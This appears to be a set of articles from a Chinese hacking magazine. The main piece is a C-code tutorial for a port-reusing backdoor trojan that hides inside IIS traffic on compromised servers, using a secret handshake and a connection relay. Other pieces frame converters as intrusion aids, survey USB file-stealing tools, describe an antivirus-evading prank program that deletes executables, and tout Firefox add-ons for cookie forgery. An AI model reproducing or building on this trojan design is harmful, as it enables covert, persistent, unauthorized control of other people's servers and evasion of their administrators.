我在开始编写前下载了一个 wxhshell，它是加了端口复用功能的 WinShell。我自己试了一下它的功能，发现在 Windows XP+SP2+IIS5.1 下可成功，在 Windows 2003+IIS6.0 下没有成功。而在 Windows XP 下正常工作时，IIS 就不能正常工作了，这要是放在肉鸡上，别人的网页都访问不了，那管理员还不一下就发现了？看来 wxhshell 不能完全满足我们的需要，因此，这篇文章的重点就在这里——正确区分木马访问和正常的 IIS 访问，然后再分别加以处理。

设计思路：先获得本机连接外网的最佳 IP，绑定此 IP 后，把 127.0.0.1 留给原服务。因为是 TCP 连接，所以只用在连接起初判断就行了，就在开始通信前接收连接方的一串定长字符串，初始判断是不是使用木马访问，如果初步判断是的话，再进行二路握手；不是则开启新线程进行客户到本地服务的数据交换。如果二路握手成功，则开启新线程执行木马功能，不成功就断开此连接。

需求：需要专门的客户端进行连接，这里用我上次写的 cmdshell 客户端来改造，思路比木马的要简单，连接后进行判断，如果对方不是自己的木马则退出。

木马适用环境：任何对外开放了服务且可端口复用的服务器，如果有防火墙的话，就要用到远程线程注入（这里不做讨论）。图 1 所示是木马工作的整个流程图。

建议准备编写或者正在编写一些工具的朋友，像这样把每个模块分开设计，对整个程序的效率可能都会有提高哦。下面我们就从绑定外网 IP 开始吧！

### 1. 绑定 IP

用 VC 编程实现的话，第一步肯定是获取本机 IP 了，这个网上的可用代码不少，不过，要是获取最佳外网 IP，又该如何实现呢？具体代码如下：

```c
#define DEFAULT_DESTINATION "202.115.32.145"
DWORD GetBestIp()
{
    // 获取本机连接外网的IP地址
    PMIB_IPADDRTABLE pAddrTable(NULL);
    PMIB_IPADDRROW   pAddrRow(NULL);
    ULONG ulSize(0);
    DWORD ret = INVALID_ADDRESS;
    char *pBuffer = NULL;
    DWORD dwBestIndex = INVALID_ADDRESS;

    // 获取最佳IP接口的索引
    DWORD dwResult;
    dwResult = GetBestInterface(inet_addr(DEFAULT_DESTINATION), &dwBestIndex);
    if (dwResult != NO_ERROR) {
        // 若错误，返回不可用地址
        return INVALID_ADDRESS;
    }

    // 获取本机所有的IP列表
    GetIpAddrTable((PMIB_IPADDRTABLE)(char*)pBuffer, &ulSize, TRUE);
    pBuffer = new char[ulSize];
    dwResult = GetIpAddrTable((PMIB_IPADDRTABLE)(char*)pBuffer, &ulSize, TRUE);
    if (dwResult == NO_ERROR) {
        pAddrTable = (PMIB_IPADDRTABLE)(char*)pBuffer;
        for (DWORD x = 0; x < pAddrTable->dwNumEntries; x++) {
            pAddrRow = (PMIB_IPADDRROW)&(pAddrTable->table[x]);
            if (pAddrRow->dwIndex == dwBestIndex) {
                ret = pAddrRow->dwAddr;
                delete [] pBuffer;
                return ret;
            }
        }
    }

    delete [] pBuffer;
    return INVALID_ADDRESS;
}
```

我们利用这段代码就可以获取连接外网的最佳 IP 地址。首先确定一个本机要连接的 DEFAULT_DESTINATION，这里只要定义为任何一个外网地址即可。再通过 GetBestInterface 获得最佳 IP 接口的索引值，这样就可以取 IP 列表里面对应位置的 IP 地址就可以了。

### 2. 获取外网 IP

由于外部的客户端连接到指定端口时，就会自动连到我们的木马上来，因此接下来就是最重要的一步——判断是否为木马请求。具体代码如下：

```c
#define OWN_SIGN "scutark"
// 自设木马标志
// 客户端同样预先...
int WshShell(SOCKET ws)
{
    SOCKET wsh;
    struct sockaddr_in client;
    DWORD myID;
    int count;
    char cmd[5];
    while(nUser<MAX_USER)
    {
        char myFlag[32];
        ThreadInfo threadInfo;
        int nSize=sizeof(client);
        // 等待连接
        wsh=accept(ws,(struct sockaddr*)&client,&nSize);
        if(wsh==INVALID_SOCKET) return '1';

        // 以"\n"为终止符接收客户端发送的验证字符串
        count=0;
        while(count<32)
        {
            if(recv(wsh,cmd,1,0)==SOCKET_ERROR){
                closesocket(wsh);
                return FALSE;
            }
            myFlag[count]=cmd[0];
            if(cmd[0]==0x0a){
                myFlag[count]='\n';
                myFlag[++count]=0;
                break;
            }
            count++;
        }

        // 初步判断是否为木马请求
        if(strncmp(myFlag, OWN_SIGN, sizeof(OWN_SIGN))!=0)
        {
            ulong loopIP=inet_addr("127.0.0.1");
            SOCKET loopback=MakeConnection(loopIP,80,120);
            if(loopback<0){
                closesocket(wsh);
                continue;
            }
        }

        // 为就绪线程复制必要管理事件
        ownevent = CreateEvent(NULL, FALSE, FALSE, ...);
    }
}
```


图 1 木马工作流程图

```c
NULL);
send(loopback, myFlag, count, 0);
threadInfo.rawSock=loopback;
threadInfo.tcpSock=wsh;
CreateThread(0, 0, doReTranToHost, &threadInfo, 0, &myID);

// 等待新线程复制完参数并继续向下执行
if(WaitForSingleObject(ownevent, INFINITE)==WAIT_FAILED)
{
    continue;
}
CloseHandle(ownevent);
continue;

// 初步判断是木马请求，再执行二路握手，失败则关闭连接
if(connestab(wsh)==FALSE){closesocket(wsh);continue;}

// 握手成功，开启木马功能执行线程
handles[nUser]=CreateThread(0, 1000,
(LPTHREAD_START_ROUTINE)TalkWithClient, (VOID*)wsh, 0, &myID);
if(handles[nUser]==0)
    closesocket(wsh);
else
    nUser++;

WaitForMultipleObjects(MAX_USER, handles, TRUE, INFINITE);
return 0;
}
```

```c
int a=(int)infop;
info.come=68;
info.go=AverageRandom(1000000,9999999);
// 发送第一路木马协议
send(client,(char*)infop,sizeof(info)-3,NULL);

// 接收对方回应的协议
count=0;
while(count<256)
{
    if(recv(client, cmd, 1, 0)==SOCKET_ERROR)
    {
        closesocket(client);
        return FALSE;
    }
    buf[count]=cmd[0];
    if(cmd[0]==0xa || cmd[0]==0xd)
    {
        buf[count]=0;
        break;
    }
    count++;
}

// 验证对方是否为可信用户
if(((Pconninfo)buf)->come!=info.go%OWN_KEY) return FALSE;
info.come=((Pconninfo)buf)->go%OWN_KEY;
info.go=o+k;
infop=&info;

// 验证成功，发送第二路木马协议
send(client,(char*)infop,sizeof(info)-3,NULL);
return TRUE;
}
```

这是经过我修改后的客户端句柄模块，`if(strncmp(myFlag,OWN_SIGN,sizeof(OWN_SIGN))!=0)` 用来初步判断客户端是不是木马请求。起初我是只想用这句来判断的，但是这个简单的判断可能会让对本地服务的请求误转到木马执行模块里面，所以就加了后面的二路握手。加上之后对程序的效率并没有什么影响，只是为了防止巧合的发生，而且还可以防止别人盗用自己的木马哦。

`if(connestab(wsh)==FALSE){closesocket(wsh);continue;}` 这是在初步判断之后和客户端的二路握手，如果成功就可以安全地执行木马模块，不成功就很干脆地关闭连接。

下面就是木马里面的 `connestab()` 函数。

```c
#define OWN_KEY 346 // 密钥

// 自定义握手协议结构体
typedef struct conninfo
{
    int go;
    int come;
    char a;
}*Pconninfo;

// 二路握手协议
BOOL connestab(SOCKET client)
{
    char buf[256], cmd[5];
    int count;
    conninfo info;
    Pconninfo infop=&info;
    info.a='\n';
    ...
}
```

其中，`OWN_KEY` 为自定义的密钥，如果客户端和木马端的密钥不同，握手就不会成功。`conninfo` 为自定义的木马协议结构体，很简单：`char a` 作为协议单元结束符；`send(client,(char*)infop,sizeof(info)-3,NULL)` 这里面 `sizeof(info)-3` 是因为 VC 编译时数据按 4 字节对齐，而 `char` 只有一字节，所以 `sizeof(info)` 返回 12，减去 3 才得到真实大小。

握手过程：第一路发送自己的标识符 68 和随机整数 A1，然后接收客户端回应。回应里有一个数 B1（A1 对客户端密钥求模的结果）和客户端随机数 B2。木马端再验证 B1 是否正确；若正确说明第一路成功，然后进行第二路握手：把 B2 对自己密钥求模放到 A2a，再把 `o` 和 `k` 的 ASCII 之和放到 A2b，最后一起发回客户端；如果对方没有关闭连接，则说明二路握手成功。

验证完毕后，接下来就是执行木马功能或者进行数据转发。文中提到木马功能是 `winshell`，数据转发模块使用 `select` 模型，代码与 shell 客户端的数据交换代码大同小异。

```c
DWORD WINAPI readwrite(SOCKET tr, SOCKET tc)
{
    char bufc[40960], bufr[40960];
    char* recvbufpc;
    char* recvbufpr;
    long recvr, recvc;
    FD_SET ding, ding1;
    int err, ret;
    SOCKET clientr=tr, clientc=tc;
    // 传进来参数复制完毕
    SetEvent(owiyevt);
    recvr=recvc=0;
    struct timeval TimeOut;
    TimeOut.tv_sec=0;
    TimeOut.tv_usec=1000;
    FD_ZERO(&ding);
    FD_ZERO(&ding1);
    FD_SET(clientc, &ding);
    FD_SET(clientr, &ding);
    while (FD_ISSET(clientc, &ding) && FD_ISSET(clientr, &ding))
    {
        // 赋初始值
        ding1=ding;
        // 超时或错误
        int Er=select(16, &ding1, 0, 0, &TimeOut);
        if (Er==SOCKET_ERROR)
        {
            FD_CLR(clientc, &ding1);
            FD_CLR(clientc, &ding);
        }
        if (FD_ISSET(clientc, &ding1))
        {
            ret=recv(clientc, bufc, sizeof(bufc), 0);
            if(ret == SOCKET_ERROR || ret==0 || ret == WSAECONNRESET)
            {
                FD_ZERO(&ding);
                // 可读但已经关闭连接
            }
            else
            {
                recvc=ret;
                bufc[ret] = '\0';
                recvbufpc=bufc;
            }
        }

        if (FD_ISSET(clientr, &ding1))
        {
            ret=recv(clientr, bufr, sizeof(bufr), 0);
            if(ret == SOCKET_ERROR || ret==0 || ret == WSAECONNRESET)
            {
                FD_ZERO(&ding);
                // 可读但已经关闭连接
            }
            else
            {
                recvr=ret;
                bufr[ret] = '\0';
                recvbufpr=bufr;
            }
        }
print:
        if(recvr)
        {
            ...
        }
    }
}
```

```c
ret=send(clientc, recvbufpr, recvr, 0);
if(ret>0)
{
    recvbufpr+=ret;
    recvr-=ret;
}
else
{
    err=WSAGetLastError();
    if(err!=WSAETIMEDOUT)
    {
        FD_ZERO(&ding);
        recvr=0;
    }
}

if(recvc)
{
    ret=send(clientr, recvbufpc, recvc, 0);
    if(ret>0)
    {
        recvbufpc+=ret;
        recvc-=ret;
    }
    else
    {
        err=WSAGetLastError();
        if(err!=WSAETIMEDOUT)
        {
            FD_ZERO(&ding);
            recvc=0;
        }
    }
}
Sleep(1);
if(recvr || recvc) goto print;

closesocket(clientr);
closesocket(clientc);
return 1;
}
```

这里客户端还需要一个握手的函数，其实质和木马里面的差不多，我就不单独拿出来讲了，大家自己琢磨一下即可明白。

由于设计整个木马和客户端涉及大量的代码，我这里只介绍了一些比较关键的代码，其他的大家可以自己分析和修改。在这个木马里面，我觉得数据转发函数比较合理和稳定，我模仿 LCX 的功能写的 PortMap 主要就是用的这个函数；而二路握手则没有设计好，首先这个密钥空间太小，很容易爆破出来；其次，还有可能出现密钥不同都可以通信的情况，这个我亲自试过，我把密钥一个设置为 3，一个为 5，试验了 10 次，里面有一次可以握手成功。当然，我写这篇文章的目的不是为了做个东西出来，主要是提出一个思路，大家可以在上面任意地拓展，既可以自己设计出更好的握手协议，也可以通过参数来传递所要绑定的端口或密钥等等。

编写这个木马着实花了我不少时间，由于本人的编程功底不是很强，所以大部分时间都是花在 VC 实现上面。现在这个木马的大体模型已经出来了，大家还等什么，赶紧做出有自己特色的专用木马吧！

适合读者：入侵爱好者、黑客迷、编程爱好者  
前置知识：无

## 文件格式混变

### ——xxxTOxxx系列工具简介

文／图 天涯哀草


xxxTOxxx 类型的工具（这里的“TO”同“TWO”同音，中文简写成 2），包括 bat2exe、bat2com、bat2exe 等，它是一个文件类型转换的集合，可以将原来的 bat 格式的文件（或其他格式），转换成 exe 或其他格式，而执行的效果是一样的——当然，在实际的入侵中，转化存储格式是非常有优势的，也是必备的一种入侵手法。今天我们就针对当前流行的此类工具做一个详细的介绍。

##### Acc2SQLD

Acc2SQLD 是一个数据库转换工具，它可以将 Access 的数据库文件转换成 MySQL 数据库文件。同样，与它相反的 SQL2ACCD 是一款执行相反转换的工具，可以把 MySQL 格式数据库文件转换为普通 Access 数据库文件，方便我们在 Windows 下轻松编辑、浏览。

首先来安装 ACC2SQLD，安装完成后程序将自动启动，界面如图 1 所示。


输入需要转换的 Access 数据库的路径，以及 MySQL 数据库的名称，然后点击“下一步”按钮，再对数据库的相关内容进行一些配置，再点击“下一步”按钮，程序就开始自动转换了。

> 小经验：在对 PHP 系统的入侵中，经常遇到 MySQL 数据库；在一般情况下，自己的计算机装 MySQL 的比较少，于是此工具就有发挥作用了：可以直接将 MySQL 的数据库转换成 Access 格式的，从而直接在系统下打开，极大地方便了入侵。

##### ASP2URL

ASP2URL 是一款取得真实地址的工具，它可以把类似 www.abc.com/down.asp?id=32、www.abc.com/down.html?id=32 或 www.abc.com/down.php?id=32 这样的地址转换成如 www.abc.com/xx.zip 的真实地址。

运行 ASP2URL，在“地址”填入欲转换的网址，然后点击“开始”按钮，马上能够在主窗口获得真实的下载地址。双击后即可复制到剪切板上，非常方便。如图 2 所示。


> 小经验：其实这只是一个后台访问服务器，并将 URL 指向的文件地址抓取出来的工具，相当于“嗅探影音文件真实地址的嗅探器”。

##### BIN2HEX 和 HEX2BIN

通过 BIN2HEX 可以把二进制的数据转换成十六进制的形态表示，而通过 HEX2BIN 正好可以执行相反的操作。

打开命令提示符窗口，运行 BIN2HEX，首先程序会提示你输入 BIN 文件的名称，再输入 HEX 文件的名称，最后开始转换。如图 3 所示。


> 小经验：在注入的时候，2 进制和 16 进制的文件转换是非常频繁的，这个小工具正好为我们提供了这两者之间相互转换的功能，注入必备哦！

##### BIN2TXT

通过 BIN2TXT 可以把二进制按照 DEBUG 的形式输出到屏幕或转换成文本文件。BIN2TXT 是一个图形化的绿色程序，在“源文件”和“目标文件”中分别设置文件的路径和名称，再在“转换格式”中设置输出的形式，点击“开始转换”按钮就可以了。如图 4 所示。

##### DB2TXT

DB2TXT 是一个支持从 Oracle、Sybase、DB2、SQL Server、Access 及 dBASE 等数据库中，将数据转换成文本文件的工具，字段间的分隔符可自行设定。如图 5 所示。


> 当你在入侵中，遇到一个庞大的数据库时，只需要其中的一个表，这时候使用这个小工具吧，一定会让你事半功倍。

##### EXE2BIN

EXE2BIN 可以将 EXE 文件根据你的需要转换成 COM 文件或 BIN 文件。其实 BIN 文件与 COM 文件是完全相同的，但由于 DOS 只认 COM、EXE 及 BAT 文件，所以 BIN 文件无法被正确执行，改名或直接输入“EXE2BIN SMILE COM文件名”即可。

> 此工具在入侵中的作用不用再多讲了吧？当你无法上传 EXE 文件的时候，不妨用此工具试一下。

##### EXE2BMP

EXE2BMP 这个小工具可以将一个 EXE 可执行文件生成为同名的 BMP、ASP、HTM 三个类型的文件。制作过网页木马的朋友对它应该很熟悉。点击“选择”按钮选择需要制作成为网页木马的木马程序即可，如图 6 所示。然后点击“生成”按钮就会在木马程序所在的文件夹生成三个同名的 BMP、ASP、HTM 文件，这个同名的 BMP 文件实际上就是我们设置的木马程序。

> 很多挂马的朋友都知道这个程序，实际上就是一个网页木马。

##### EXE2HDBO

EXE2HBDO 工具主要是为学习缓冲区溢出提供方便的，它把软件以 16 进制、2 进制、10 进制格式化输出到文本文件。主要是 16 进制，是以 SHELLCODE 的形式输出，节省了自己添加的时间，只需要把最后多余的一个双引号去掉就可以了。本软件一次生成 4 个文件，后缀分别为 hex、bin、dec、oct，可以用记事本打开查看，如图 7 所示。


##### EXE2HEX

EXE2HEX 是一个将可执行文件转换成二进制编码打印到屏幕上，同样也可以重定向到一个文本文件中去的工具。

##### EXE2SWF

Macromedia Flash 播放器中有一个将 SWF 文件转换成自动运行的可执行文件的插件，而 EXE2SWF 的作用恰恰相反，能将那些可自动运行的可执行 Flash 文件变回成 SWF 文件，如图 8 所示。


> 最近经常出现在 Flash 的 exe 文件中藏着木马的事件，使用这个工具，这样的烦恼终于不见了。

##### EXE2VBS

EXE2VBS 是一个将可执行文件转换成脚本文件的工具，其实你完全可以将其作为一个脚本病毒的生成工具来使用。用户在窗口分别对“需要转换的文件”、“转换后的文件”以及“VBS 文件释放出的文件”等选项进行设置，然后点击“转换”按钮就可以转换了。如图 9 所示。


图9

> 当你遇到 SA 权限的主机，有注入漏洞，这时候最缺的是什么？一个可以实现你功能的 VBS！这就是 EXE2VBS！

##### HTML2TXT

从名称已经看出，HTML2TXT 是一款将 HTML 格式的文件转换为 TXT 格式文件的工具。用户首先在“HTML文件路径”和“TXT文件路径”中设置文件的路径，然后点击“转换”按钮开始文件格式转换。如图 10 所示。


图10

##### PDF2HTML

PDF2HTML 可以将 Acrobat 程序的 PDF 文件转换成 HTML 格式的文件。运行 PDF2HTML，选择需要转换的 PDF 文件开始转换。如图 11 所示。


图11

除此以外，PDF2WORD 工具可以将 PDF 文件转换成 Word 程序所支持的文件。

##### Perl2EXE

典型的 Perl2EXE 用法就是“perl2exe script.pl”和“perl2exe script.pl -gui”，按照默认方法执行后就会在目录下生成一个与 script.pl 同名但后缀为 EXE 的文件，这就是你顺利编译完成的程序了。那么 script.pl 是什么呢？当然就是 Perl 程序代码，如经典的 webdev 溢出，和最近出现的几个溢出程序也多是 Perl 写的。使用这个小工具，可以直接将 Perl 转化成 EXE 文件！极大地方便了入侵！

##### PY2EXE

PY2EXE 是一款 PYTHON 发布工具，它可以把 PYTHON 脚本转换成 Windows 下的可执行程序，不需要安装 PYTHON 便可运行。PY2EXE 如今还可以用来创建使用 wxPython、Tkinter、Pmw、PyGTK、pygame、win32com client and server 等模块的程序。

##### REG2INF

这是一个 Windows Console 程序，可以按照注册表文件的内容，生成相同内容的安装信息文件。一般情况下，导入到注册表中的文件，只能增加新的键，或者修改原有的键，却不能删除已经存在的键。而我们在系统维护中，为了保存一些设置而导出注册表的某个部分，在恢复设置时，我们希望得到的结果，应该是原模原样地恢复，而不是残留一些不知会起什么副作用的垃圾，这时 REG2INF 就有用了。

```bash
reg2inf.exe -w -t aaa.reg bbb.inf
```

##### TXT2EXE

```bash
TXT2EXE <源文件名> [可执行文件名[EXE]][/C][/E][/P][/R][/S]
```

- /C：生成压缩的可执行文件。
- /E：在可执行文件中，保留源文本文档的信息，以便使用 TXT2EXE 反编译成文本文件。
- /P：生成一个具有打印功能（按 F7 键）的可执行文件。
- /R：编译完后，立即运行该可执行文件。
- /S：生成一个可自我分离文档信息的可执行文件。

##### BAT2COM、BAT2EXE 和 COM2EXE

通过 BAT2COM 和 BAT2EXE，用户可以把 BAT 编译成 COM 和 EXE 格式的文件。通过 COM2EXE，可以把 COM 格式的文件转换成 EXE 格式的文件。

##### ASM2Shellcode

这个工具是图形化界面的 ASM2SHELLCODE，操作非常简单，它可以傻瓜化地导入汇编代码，然后直接生成去掉……0x00 的 Shellcode，是编写溢出程序的好帮手。

##### Doc2Pdf

Doc2Pdf 是一个批量办公文档转换软件，可以一次性批量地将微软的 Word 所支持的文档格式（如 doc、html、text、rtf 和 wri）转换为 pdf，支持命令行参数，使得转换工作可以自动运行，并且可以将子目录下的所有合适文件统一进行转换。

##### ASP2ASPX

ASP2ASPX 是一款能帮助你快速地升级 ASP 应用程序到 ASP.NET 的小程序，而且它还能转换 VBScript 代码成 C# 或 VB.NET，并且提供了 Code-Behind 功能。它是移植 ASP 到 ASP.NET 的好帮手。

##### ASP2DLL

通过 ASP2DLL 可以将 Server 端的 VBScript、IIS ASP 和客户端的 Java 和 VBScript 转换并优化为 Visual Basic 5.0、6.0 的源代码，以便编译为 ActiveX Visual Basic COM、DLL 文件，来获得最高的执行效率和安全性。同类的文件格式转化工具有很多，还在不断开发中，希望此系列工具为各位读者的入侵、防护带来方便。

蝴蝶 U 盘窃密技术在国内第一次提出后，立即受到各方面关注，很多朋友都发来 Mail 讨论相关技术。应大家的要求，本期先送上一篇锐利性的文章，有一定的前瞻意义，希望大家能读到一些别样的味道。以后我们将陆续推出这样的文章，欢迎大家共同讨论！

- 适合读者：入侵爱好者，编程爱好者
- 前置知识：无

## U盘窃密大曝光

文/图 SDPing


追本溯源，U 盘窃密这类软件的最初编写目的很简单，就是利用教师喜欢把 U 盘里放自己工作有关文件的习惯，偷偷将教师 U 盘里的东西在非授权情况下盗拷出去。这样，就可以偷偷看到考试试卷或非公开信息。最初动机很简单，但是现在来看，使用这类软件的目的有些改变，开始被用于入侵中的信息收集及商业窃密。你不信？那就继续向下看吧。

### 第一代：概念型U盘窃取软件

最初的 U 盘窃密型软件编写得十分简单，比如“U 盘窥探者”只是用 VB 编写的一个小程序而已（手上暂时没找到这个程序，截图暂不提供，可以翻看《黑客防线》的相关文章），有隐藏窗口及指定拷贝文件夹，但是限制比较多，比如必须在图形化界面上操作等。它的清除也十分简单，在进程管理器中将它结束即可。虽然很简陋，但它毕竟提出了一个新概念，这是最可贵的。

##### 第二代：基本数据窃取型

“闪盘窃密者”与“U 盘大盗”，是第一代的进阶版本。如图 1、图 2 所示。“闪盘窃密者”的特点是将远程注入技术引入（无进程），并且可以简单生成客户端。


“U 盘大盗”则可以在命令行窗口使用，只要运行就会出现如上图 2 的界面，并且在运行目录下会生成以日期命名的文件夹，内有盗拷的 U 盘中的文件。当然，这种方式不够隐蔽。Lake2 为我们提供了另一种隐藏方式：`UPDD.exe hide`，这种 hide 模式极适合在 Shell 下使用，用途更加广泛（传到肉鸡上收集信息，特别是在渗透服务器组的时候）。

##### 第三代：商业窃密型

第二代的产品虽然已经能用，不过它们仍然缺点很多：“闪盘窃密者”在中招之后很可能会引起系统迟钝，而且服务未隐藏，所以清除也很简单。它的伪装服务“Windows Internet Service”停掉删除后，将 `inetsvr.exe` 文件删除，它就失效了（当然也可以请杀毒软件代劳，删得更全）。“U 盘大盗”则是未隐藏进程，不适合长时间使用。

不过如果哪位把这两个软件的优点都合起来并完善呢？比如改善注入处理，用多线程技术防止系统假死，将容错完善，编写将服务高度隐藏……所以说它在将来被用于商业窃密的可能性十分之大。

除了在以上方面加强外，还会更细地划分盗拷文件的类型、文件名等，并将黑手伸向各种移动存储设备：移动硬盘、光盘甚至各种存储卡……在盗取后文件的处理方面也会加强，将盗拷的文件压缩、加密、改名等；并且支持网络发送。更强悍的是技术上的更新：将设备插入后，即使不人为执行各种操作，系统还会定时读写一下设备。应用这个特性，盗拷软件将监测系统对移动设备的读写，并趁机将一部分目标文件以蚂蚁搬家的方式窃走。这种方式几乎不会引起操作者注意，因为它的工作方式实在太隐蔽了。当然，完全符合这种第三代特征的窃密软件我还没有看到，只是推测一下它的发展趋势而已。

##### 防护手法

看了这些，你就不会说你的 U 盘是十分安全了吧？！没错，今天你注意了“窥探者”“窃密者”或“大盗”，明天说不定就有什么更先进的“XX 盗者”出现。正如此，如果想尽量防止盗拷，除了一定安全知识之外，还需要有好的使用习惯，比如：

- 不要把 U 盘当保存库，特别是重要文件不需要时放在 U 盘里（最根本的）。
- 使用硬加密（加密区、加密锁等）或用软件加密的方式保护重要文件，这点非常重要。
- 插入 U 盘后观察 U 盘灯是否长时间闪烁，如是，很可能是在盗拷文件，这是笔者目前的经验。
- 拷贝文件时，本人要在旁边。不要笑，切记。
- U 盘使用时随用随插，用完即拔。

有了丰富的安全经验和好的使用习惯，相信你的 U 盘会安全得多！也不枉我写此文。Happy new year!

- 适合读者：QQ 迷，QQ 被盗者
- 前置知识：无

## 整整QQ盗者


文/图 Coderui（小索）

本程序名叫《Fantom 整人程序》，“Fantom”是幽灵的意思。为什么叫这个名字，请看下边的详细简介吧。这个程序已经经过目前所有杀毒软件测试，全部免杀，因为是自己编写开发的，呵呵，爽！下边我就来简介一下它的使用方法吧。

我把程序放在 RAR 压缩包里了，并起名为：《Fantom 整人程序》。如图 1 所示。解压后，会出现一个叫《最新 QQ 密码暴力破解器》的程序图标。如图 2 所示。朋友们想知道为什么本整人程序叫这个名字？很简单：

“因为这个程序原本是为总想盗别人 QQ 号去卖的人准备的，真为他们感到耻辱，所以想惩罚他们一下。同时，在这里也希望大家做个真正善良的黑客，共同维护我们国家的网络安全。原本 Hacker 的意思是天才程序员，我非常喜欢这个名词，大家也是一样对吧！”


双击运行程序，首先看到的是一个应用程序的界面，很像真正盗 QQ 用的工具是吧？但它只是有这样一个界面的窗口而已，没任何破解功能。现在整人的行动已经一切就绪，一触即发。叫他们中招时一点防备都没有，呵呵！如图 3 所示。


这时的程序窗口在桌面上是移动不了的，但可以输入要破解的 QQ 和选择“一般速度”或“特快速度”的选项，但这些也只不过是摆设，用来掩人耳目罢了。不管你是否填写信息，只要点击“普通破解”或“暴力破解”，这个程序就会起作用了，下边的现象很快，几乎一下就完事了，因为机器 CPU 处理得很快，呵呵。

- 首先桌面上所有程序图标全部隐藏。
- 任务栏隐藏。
- 此程序自动关闭。
- 改变屏幕分辨率为 800×600 像素。
- 打印出红色的“这就是盗别人 QQ 的后果！”一段字到屏幕，背景为透明。
- 最好玩的是此程序一旦运行后会自动消失，这就是为什么这个程序会被命名为《Fantom 整人程序》！别怕，它不是木马。加此功能只是想让它更神秘些，吓吓那些天天就知道想着盗别人 QQ 来卖的人。
- 为了不造成太大的伤害构成犯罪，所以没加修改注册表的功能，也没加入对系统和硬件破坏的代码，但还是请慎重使用。

大家可别小看它哦，一旦你运行了，就很难关闭了：任务管理器“运行程序”中此程序是隐藏运行的，看不到。此软件一旦运行，除了在任务管理器中停进程，再无它法关闭。

可是一般人是找不到它的进程的，哈哈！因为已经不是以前的名字了哦！

就算你找到了，要是没经验关闭错了，你机器就会“倒计时 15 秒重启”！

任务栏上此程序的右键关闭被屏蔽了。程序标题栏上的最小化和关闭按钮是假的，无效按钮。

点击 [ESC]、[ALT+F4]、[ENTER] 也同样是叫此程序进行整人活动，千万别妄想以为 [ALT+F4] 就可以关闭此程序哦。

##### 后记

此程序支持所有 Windows 平台，经过测试目前所有杀毒软件全部免杀。运行后，当前文件夹下的所有非只读的 `.exe` 程序全部删除，包括自己也会被永久删除。希望大家会喜欢，一起讨论技术，共同提高，谢谢朋友们的支持！

- 适合读者：FireFox 使用者、入侵爱好者
- 前置知识：FireFox 基本使用方法

#### 武装 FireFox

文/图 无名

相信看过黑防的朋友都听过 TouchNet 吧？一个黑客专用的绝好浏览器。在我还很菜的时候，我就用它黑过很多站。但是时代变迁，长江后浪推前浪（蝴蝶：前浪死在沙滩上……），TouchNet 已经过时了。新的时代，我们用 FireFox 入侵！当然，一般的 FireFox 发行版就像是没加装备的士兵，没什么攻击性。为了使它变成我们的战士，我们给它加装甲！

### 装备一：IP TOOL

下载地址：http://www2.iptool.us/iptool-0.1.7.xpi

安装了这个东东后，FireFox 的右下角就会出现一个“IP”的字眼，点击它就可以看到自己的 IP。上面的是公网地址，下面的是内网地址，点击 View All Info 可看到详情。如图 1 所示。


图 1

##### 装备二：Cookie Editor

下载地址：http://releases.mozilla.org/pub/mozilla.org/extensions/add_n_edit_cookies/add_n_edit_cookies-0.2.0.4-fx+mz.xpi

相信大家都经历过修改 Cookie 的麻烦事了吧？要么用 WSE 截报文，修改后再用 NC 发回去；要么用 IE Cookies View 修改。无论哪个都极其麻烦。难道我们就白白看着得到了管理员的 MD5 密码还要经过这么多修改才能骗到服务器吗？当然不是！

安装了 Cookie Editor 后，重启 FireFox，就能在“工具”选项中找到“Cookie Editor”了。修改 Cookie 的方法很简单，这里我拿修改我的网站为例：打开要修改 Cookie 的网页，再打开 Cookie Editor，如图 2 所示。


图 2

看到了吧？所有 Cookies 的名字、属性与值都出来了。有两个 keesky.com 的 Cookie，上面一个以 ASPSESSION 开头的是 Session，没利用价值，我们打开下面的一个，如图 3 所示。

修改“Content（内容）”为自己想要的值，例如我的 MD5 密码，其他的不用管，按 Save 保存，回到网页刷新一下就应用了新 Cookie 值了。方便吧？连浏览器都不用关！

##### 装备三：Web Developer

下载地址：http://www.mozilla.net.cn/firefox/extensions/xpi/WebDeveloper.xpi

Web Developer 是专门为网页开发者设计的，功能非常强大。由于是中文版，这儿就不作详细介绍了。Web Developer 可以禁掉图像、动画、Cookies、CSS 等一切几乎可以禁掉的东西，查看响应源、源代码、Cookies，编辑或清除缓存、CSS 和历史记录。它还有一个强大的地方：修改表单！通过这个扩展，你可以弹指之间显示表格的详细资料，清掉文本框的最大长度，显示密码域的密码！如图 4、5 所示。


##### 装备四：MD Hash Tool

下载地址：http://downloads.mozdev.org/mdhashtool/

`mdhashtool-0.3.xpi`

入侵论坛时常常要生成 MD5，一时找不到 MD5 生成器怎么办？用 MD Hash Tool 吧。这个简单的工具能算文件或文本的 MD5 与 SHA1 散列。只要在 Hash Alg 选中运算类型，在 Message 处输入原文本，按 [compute digest] 按钮，MD5 散列就出来了。爽吧，还用找入侵工具么？如图 6 所示。


### 装备N：网络自由资金屋

使用了上面的 4 个装备，大家肯定觉得意犹未尽吧？其实更多的装备在网络上。外国有很多关于 Mozilla 开发的网站，值得大家去淘宝、去学习，这里推荐几个：

> http://www.mozdev.com/

这个网站是我最喜欢的，里面有很多开源项目。在这里大家可以找到最新的扩展，有很多很有趣的创意哦。如果大家想开发扩展，这里也提供了最详细的教程与帮助。

http://extensionroom.mozdev.org/

好多好用的东东，但大家安装时要注意版本。

https://addons.mozilla.org/extensions/

官方的扩展下载站。

好了，本文就写到这里了，大家如果有什么疑问，欢迎到黑防论坛提问。

蝴蝶：相信看黑防的读者朋友们，或多或少都有几个自己的 WebShell 或肉鸡。如何用更隐蔽的方式来控制肉鸡，是大家一直都在关心的问题。WebShell 的隐藏和利用 WebShell 执行系统权限命令是现在最时髦的黑客技术研究方向。本文就给我们提出了一种利用 MSSQL 扩展存储过程实现非常隐蔽的、以系统权限执行命令的后门（WebShell）隐藏技术，希望大家喜欢，欢迎广泛讨论。

**适合读者：** 脚本爱好者，入侵爱好者，黑器迷，网络管理员

**前置知识：** MSSQL 基础扩展过程

## 令系统执行SQL Shell

## 巧用MSSQL扩展存储做后门

文/图 lake2

继 WebShell、FTPShell 之后，让我们再来玩玩 SQLShell 吧。使用数据库考虑最多的就是速度和效率，所以数据库系统使用存储过程机制来提高效率。SQL Server 2000 支持 5 种类型的存储过程，这里我们主要说说 SQL Server 的扩展存储过程，因为我们要利用它做后门。看看书上对扩展存储过程的定义：

